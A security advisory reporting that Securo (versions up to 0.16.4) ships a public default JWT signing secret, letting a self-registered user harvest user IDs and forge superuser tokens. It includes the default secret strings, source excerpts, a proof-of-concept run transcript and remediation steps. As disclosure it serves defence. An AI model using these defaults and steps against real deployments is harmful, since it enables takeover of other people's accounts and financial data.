

# Hardcoded Default JWT Signing Secret in Securo Enables Offline Superuser Token Forgery

| Field | Value |
|---|---|
| Project | [securo-finance/securo](https://github.com/securo-finance/securo) |
| Vulnerability Type | Use of Hard-coded Cryptographic Key (CWE-321) leading to Authentication Bypass (CWE-287) |
| Severity | Critical — CVSS 3.1 Base Score: 9.8 |
| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| Affected Versions | <= 0.16.4 (verified on 0.16.4, latest release as of 2026-10-14; commit `b0ad4cf`) |
| Authentication | None (self-registration) |

---

## Summary

Securo's backend signs all session JWTs (fastapi-users `JWTStrategy`, HS256) with `settings.secret_key`. That key has a publicly known default at every layer of the documented deployment paths:

- code default: `backend/app/core/config.py:24` — `secret_key = SecretStr("change-me-in-production")`
- `docker-compose.yml:12` and `docker-compose.prod.yml:12` — `SECRET_KEY: ${SECRET_KEY:-dev-secret-change-in-production}`
- production Helm chart `charts/securo/values.yaml:17` — `secretKey: "dev-secret-change-in-production"`

Nothing forces an install to rotate it (no startup check, no generated value), so the README quick-start (`docker compose up --build`) runs with a public signing key. Because the same key also protects the password-reset flow and the Fernet key encrypting stored LLM API keys, every deployment that did not explicitly override `SECRET_KEY` accepts attacker-forged tokens: anyone can register a normal account, harvest every user UUID via `GET /api/users/directory` (which returns all users to any authenticated caller), mint an HS256 token for the superuser offline, and drive the full `/api/admin/*` surface.

## Details

`backend/app/core/config.py:24` (0.16.4):

```python
secret_key: SecretStr = SecretStr("change-me-in-production")
```

`backend/app/core/auth.py:87-98` — the key directly signs every session token:

```python
def get_jwt_strategy() -> JWTStrategy:
    return JWTStrategy(
        secret=settings.secret_key.get_secret_value(),
        lifetime_seconds=settings.access_token_expire_minutes * 60,
    )
```

`backend/app/api/user_lookup.py:52-62` — the UUID oracle any logged-in user can call:

```python
@router.get("/directory", response_model=list[UserLookupResult])
async def list_users_directory(...):
    """List every user on the instance — for the member-picker dropdown."""
    result = await session.execute(select(User).order_by(User.email))
    return list(result.scalars().all())
```

Registration is enabled by default (`registration_enabled = True`), so the attacker needs no prior access to reach the directory. `fastapi-users` accepts any token whose `sub` names an existing user and whose signature verifies under `secret_key` — with the default key, both properties are attacker-controlled.

## PoC

Verified on release 0.16.4 (source tarball, commit `b0ad4cf`): backend started with `uvicorn app.main:app` against Postgres (pgvector image, as required by the docs) and Redis, with **no** `SECRET_KEY` set — the exact state of a compose quick-start that does not override the variable. All tokens below are crafted with the Python standard library (`hmac`/`hashlib`); no secrets were read from the instance.

**Step 1: self-register and harvest the superuser UUID**

```
[*] attacker self-registers: 201 {"id":"5c7c690b-...","email":"attacker2@example.com",...}
[*] attacker login: 200 token len 204
[*] victim (superuser) uuid: aa1e34e7-f570-4046-b2c1-36901adfe3ae is_superuser: True

-- [1] GET /api/users/directory with the attacker's plain-user token --
    HTTP 200 [{"id":"5c7c690b-...","email":"attacker2@example.com"},
              {"id":"7ca4968d-...","email":"attacker@example.com"},
              {"id":"aa1e34e7-...","email":"victim@example.com"}, ...]
```

**Step 2: forge the superuser token offline with the public default secret**

```
-- [2] forge HS256 JWT offline for the superuser (secret = public default) --
    forged token: eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJzdWIiOiJhYTFlM2U3...
    GET /api/users/me with forged token -> HTTP 200 {"id":"aa1e34e7-...","email":"victim@example.com","is_superuser":true,...}
    GET /api/admin/users (admin API)      -> HTTP 200 {"items":[...all users...]}
    [VULN] forged token accepted as the superuser
```

**Step 3: negative control — identical token signed with a wrong secret**

```
-- [3] negative control: same token signed with a WRONG secret --
    HTTP 401 {"detail":"Unauthorized"}
    [OK] rejected
```

**Real-environment reproduction** (the product itself, run for this test): the transcript above is a live run against the release 0.16.4 backend started without `SECRET_KEY`; the forged token was accepted for the superuser identity across both the profile and the admin API, while the same token with a wrong signature was rejected — proving the acceptance is caused by the known default key, not by missing verification.



---

## Impact

On any deployment that did not explicitly override `SECRET_KEY` (the default state of the documented compose and Helm install paths):

- **Full instance takeover** — forged superuser JWTs unlock all `/api/admin/*` endpoints: password resets for any user, user creation/deletion, and instance-wide data access
- **Session forgery for every user** — combined with the user-enumeration oracle, any account (including other members' workspaces in single-tenant installs) can be impersonated
- **Cascading key compromise** — the same secret protects password-reset tokens and the Fernet key encrypting stored LLM API keys (`backend/app/agents/services/crypto.py`)

### Remediation

1. Generate a random `SECRET_KEY` on first start (persist it in the data volume) and refuse to boot with any of the known public defaults, in code and in the Helm chart's default values.
2. Remove the literal fallbacks from `docker-compose.yml`, `docker-compose.prod.yml`, and `charts/securo/values.yaml`; `install.sh` should emit a freshly generated secret into `.env`.
3. Restrict `GET /api/users/directory` to authenticated members with a need (or superusers), and return opaque identifiers where possible.
4. Consider migrating session tokens to an asymmetric algorithm (RS256/EdDSA) so a leaked symmetric default cannot be silently exploited across installs.
